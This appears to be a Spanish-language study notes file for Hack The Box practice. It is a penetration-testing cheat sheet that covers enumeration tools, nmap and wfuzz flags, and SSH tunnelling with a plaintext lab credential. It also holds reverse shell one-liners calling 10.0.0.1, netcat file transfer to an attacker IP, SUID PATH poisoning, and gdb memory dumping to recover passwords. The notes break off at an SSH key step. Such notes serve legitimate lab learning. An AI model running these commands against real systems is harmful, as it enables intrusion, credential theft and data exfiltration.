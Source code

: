 # Aprendiendo de Hackthebox.com

- sitios: 
    - https://brainful.blog/2022/01/19/enumeration-2/

- sitios wordlist: 
    - sub dominios: 
        - https://github.com/theMiddleBlue/DNSenum/blob/master/wordlist/subdomains-top1mil-20000.txt

- sitios payloads:
    - https://github.com/swisskyrepo/PayloadsAllTheThings

- scripts enumeration:
    - https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
    - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
        - bajarlo `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh`
    - https://github.com/DominicBreuker/pspy enumera los procesos sin necesidad de ser root.

- usando nmap
    - `-sU` scanear puertos UDP
    - `-p80` escanear puerto 80, `-p-` escanear todos los puertos
    - `-sS` tcp syn ping
    - `-v` verbose
    - `-Pn` skip ping
    - `-A` agressive mode, muestra info mas detallada. *tratar de usar solo con los puertos descubiertos.*

- Web Fuzzer (*remplazo de palabras en el url*)
    - `wfuzz -c -z range,1-10 http://www.sitio.com/FUZZ` la palabra **FUZZ** seria remplazada por numeros del 1 al 10.
    - `wfuzz -c -z file,palabras.txt http://www.sitio.com/FUZZ` palabra **FUZZ** seria remplazada por las palabras dentro del archivo.
    - con la opcion `--sc` fitramoslos resultados, p.e. `--sc 200` solo muestra los resultados con *200 OK.f* 
    - `-c` muestra la salida con colores
    - `-w palabras.txt` lo mismo q usar file,palabras.txt
    - `-L` seguir redirecciones.
    - `-H` header p.e. `-H "Host: FUZZ.sitio.htb"

- Reverse shell
    - si se puede subir archivos al sitio se usa un [simple webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)
    - [reverse shell cheatsheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).
    - si esta netcat disponible usamos `nc -e /bin/sh 10.0.0.1 1234`
    - si `nc` no soporte la opcion `-e`: 
        - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
    - si no hay **netcat** en la maquina remota usamos `	
nc -lvp 8080` en nuestra maquina y `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` en la remota. la ip 10.0.0.1 es la de nuestra maquina.
    - intentar con `'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"'`
    - si se conecta usamos:
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` luego Presionar `Ctrl+Z` e ingresar `stty raw -echo;fg`-c y presionar ENTER dos veces y regresara al reverse shell pero podremos usar ctrl+c y ctrl+z

    - si usamos `sudo -l` y no funciona usamos:
        - [GTFObins](https://gtfobins.github.io/gtfobins/at/) `echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

    - bajar un archivo con `nc`:
        - en nuestra pc con ip 10.10.14.81: `nc -nvlp 10.10.14.81 4444 > file`
        - en el pc remoto: `nc 10.10.14.81 4444 < file`

- SSH tunneling
    - ssh -D1234 user@10.10.11.136
    - bajamos el `foxyproxy` y configuramos:
        - proxy type: SOCKS5
        - Proxy IP: 127.0.0.1
        - Port: 1234
        - Send DNS through SOCKS5 proxy: enable
    - para aplicaciones de linea de comandos usamos `proxychains`
        - editamos nano /etc/proxychains.conf
        - opcion: strict_chain
        - socks5 127.0.0.1 1234 daniel HotelBabylon23

- [Buscar archivos SUID](https://blog.certcube.com/suid-executables-linux-privilege-escalation/) (permisos: rws) para usar el path poison:
    - `find / -user root -perm -4000 -print 2>/dev/null`
    - `find / -perm -u=s -type f 2>/dev/null`
    - `find / -user root -perm -4000 -exec ls -ldb {} \;`
    - [path poisoning](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) : 
        - `export PATH=/tmp:$PATH`
        - en /tmp suplantamos el nombe de un commando asi cuando
        se llame a ese comando ejecutara el commando en /tmp.


- Dump memory
    - `gdb -p <FTP_PROCESS_PID>`
    - `(gdb) info proc mappings`
    - `(gdb) q`
    - `(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>`
    - `(gdb) q`
    - `strings /tmp/mem_ftp #User and password` <- buscar strings

- ssh id_rsa reemplazar en maquina atacada:
    - generamos el id_rsa `ssh-keygen -t rsa`
    - 






















